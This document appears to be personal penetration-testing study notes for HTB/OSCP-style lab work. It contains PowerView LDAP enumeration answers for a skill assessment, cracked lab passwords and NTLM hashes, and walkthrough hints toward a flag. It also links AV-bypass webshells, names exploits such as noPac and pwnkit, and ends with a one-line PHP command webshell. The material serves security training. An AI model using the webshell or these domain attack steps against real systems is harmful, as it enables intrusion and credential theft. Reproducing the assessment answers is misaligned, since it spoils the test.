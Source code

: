 ```c
h

---
---
LDAP Skill Assessment

```c
# Q1
Get-DomainUser -LDAPFilter "(userAccountControl=262656)" | Select samaccountname, useraccountcontrol, distinguishedname

# Q2
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL `
  -LDAPFilter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" `
  | Select samaccountname, useraccountcontrol, distinguishedname

# Q3 
(Get-DomainGroup -Identity "IT Support" -Domain INLANEFREIGHTENUM1.LOCAL -Properties memberof).memberof |
    ForEach-Object { ($_ -split ',')[0] -replace '^CN=' }

# Q4
$g='Server Technicians'; $direct=(Get-DomainGroupMember $g | ? {$_.MemberObjectClass -eq 'user'} | % MemberSID); Get-DomainGroupMember $g -Recurse | ? {$_.MemberObjectClass -eq 'user' -and ($_.MemberSID -notin $direct)} | % { Get-DomainUser -Identity $_.MemberSID -Properties givenName,sn,samAccountName } | % { if($_.givenName -and $_.sn){"$($_.givenName).$($_.sn)"} else { $_.samAccountName } }

# Q5
(Get-DomainUser -SearchBase "OU=Former Employees,DC=INLANEFREIGHTENUM1,DC=LOCAL").Count

# Q6
$d='INLANEFREIGHTENUM1.LOCAL'
Get-DomainComputer -Domain $d -LDAPFilter "(name=RD*)" -Properties dNSHostName,name |
  ForEach-Object { if ($_.dNSHostName) { $_.dNSHostName } else { "$($_.name).$d" } } |
  ForEach-Object { $_.ToUpper() }

# Q7
(Get-ADGroup -LDAPFilter "(adminCount=1)").Count

# Q8
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=4194304)' | select samaccountname,distinguishedname

# Q9
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname

# Q10
(Get-DomainPolicy).PrivilegeRights
```
---
---
```c
[+] INLANEFREIGHT.LOCAL\Juliette:Password1
[+] Atul\hooters1
[+] SQL01\sqldev:Sq!D3vUs3R
Welcome1
administrator : MyG00dandSecureP@$$Word

admiinistartor : aa8058d010273e4a9c5043280a84b2bb
SQL01$ : d92707cc5c2c85a061517c750fc4ead1
```

```c
than use get-file to get whatever you found in the dev share.

This will get you to the SQL01

Than try SELECT * FROM [interns].[dbo].details

But also there is the flag on that machine, you will have to priv than impersonate and more c:\Users\Public\flag.txt

So 2 things you will get so you can continue.
```




- [ ] add xampp to my notes

https://github.com/n0xturne/OSCP-Cheat-Sheet-2024

https://medium.com/@nomanramzan91/muhammad-nomans-oscp-journey-a-comprehensive-review-110-and-tips-in-12-hours-57c8ee2c1a3d

.htaccess


https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

https://www.hackingarticles.in/red-teaming/
https://www.hackingarticles.in/penetration-testing/

https://raw.githubusercontent.com/yayip/aspx-webshell-antivirus-bypass/refs/heads/main/aspx_bypass_av.aspx

exploits like pwnkit
.git exploits

SeMachineAccountPrivilege -> exploit it using nopac https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/


check all the windows privilege escalation methods


add all web extensions in web methodology
make a custom wordlist for authentication bypass
sqli , nosqli etc 

<?php system($_GET[“cmd”]);?>
```
